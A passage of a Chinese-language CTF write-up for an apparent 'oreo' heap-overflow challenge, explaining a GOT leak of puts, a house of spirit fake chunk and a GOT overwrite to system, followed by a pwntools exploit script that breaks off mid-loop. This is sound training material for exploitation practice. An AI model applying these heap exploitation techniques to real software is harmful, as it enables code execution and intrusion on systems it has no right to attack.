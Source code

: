 1. 由于程序存在堆溢出漏洞，而且还可以控制 next 指针，我们可以直接控制 next 指针指向程序中 got 表的位置。当进行展示的时候，即可以输出对应的内容，这里同时需要确保假设对应地址为一个枪支结构体时，其 next 指针为 NULL。这里我采用 puts@got。通过这样的操作，我们就可以获得出 libc 基地址，以及 system 函数地址。
2. 由于枪支结构体大小是 0x38 大小，所以其对应的 chunk 为 0x40。这里采用 `house of sprit` 的技术来返回 0x0804A2A8 处的chunk，即留下的消息的指针。因此，我们需要设置 0x0804A2A4 处的内容为 0x40，即需要添加 0x40 支枪支，从而绕过大小检测。同时为了确保可以绕过 next chunk 的检测，这里我们编辑留下的消息。
3. 在成功分配这样的 chunk 后，我们其实就有了一个任意地址修改的漏洞，这里我们可以选择修改一个合适的 got 项为 system 地址，从而获得 shell。

具体代码如下

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./oreo"
oreo = ELF("./oreo")
if args['REMOTE']:
    p = remote(ip, port)
else:
    p = process("./oreo")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')


def add(descrip, name):
    p.sendline('1')
    #p.recvuntil('Rifle name: ')
    p.sendline(name)
    #p.recvuntil('Rifle description: ')
    #sleep(0.5)
    p.sendline(descrip)


def show_rifle():
    p.sendline('2')
    p.recvuntil('===================================\n')


def order():
    p.sendline('3')


def message(notice):
    p.sendline('4')
    #p.recvuntil("Enter any notice you'd like to submit with your order: ")
    p.sendline(notice)


def exp():
    print 'step 1. leak libc base'
    name = 27 * 'a' + p32(oreo.got['puts'])
    add(25 * 'a', name)
    show_rifle()
    p.recvuntil('===================================\n')
    p.recvuntil('Description: ')
    puts_addr = u32(p.recvuntil('\n', drop=True)[:4])
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    system_addr = libc_base + libc.symbols['system']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))

    print 'step 2. free fake chunk at 0x0804A2A8'

    # now, oifle_cnt=1, we need set it = 0x40
    oifle = 1
    while oifle < 0x3f:
```